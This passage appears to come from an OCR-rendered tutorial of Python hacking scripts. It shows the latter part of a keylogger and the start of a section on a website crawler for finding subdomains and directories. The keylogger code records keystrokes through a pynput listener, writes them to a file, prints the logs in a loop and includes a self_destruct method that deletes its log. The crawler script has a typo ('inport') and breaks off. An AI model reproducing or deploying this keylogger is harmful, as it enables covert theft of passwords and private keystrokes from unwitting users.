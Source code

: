 ```
                if k.find('backspace') > 0:
                    f.write(' Backspace ')
                elif k.find('enter') > 0:
                    f.write('\n')
                elif k.find('shift') > 0:
                    f.write(' Shift ')
                elif k.find('space') > 0:
                    f.write(' ')
                elif k.find('caps_lock') > 0:
                    f.write(' caps_lock ')
                elif k.find('Key'):
                    f.write(k)

    def self_destruct(self):
        self.flag = 1
        listener.stop()
        os.remove(self.path)

    def start(self):
        global listener
        with Listener(on_press=self.on_press) as listener:
            listener.join()

if __name__ == '__main__':
    keylog = Keylogger()
    t = threading.Thread(target=keylog.start)
    t.start()
    while keylog.flag != 1:
        time.sleep(10)
        logs = keylog.read_logs()
        print(logs)
        #keylog.self_destruct()
    t.join()
```

---

## 14 - Website Crawler

- Websites can be crawled for subdomains and directories.
- Subdomain is the domain written before the actual domain name. They are a part of the main domain.
- Directories are mentioned after the `/`.

### Code

```
#!/usr/bin/env python

# website_crawler.py

import requests
inport re
import urllib.parse as urlparse

target_links = []

def request(target_url):
	try:
		return requests.get(target_url)
	except requests.exceptions.ConnectionError:
		pass
		
```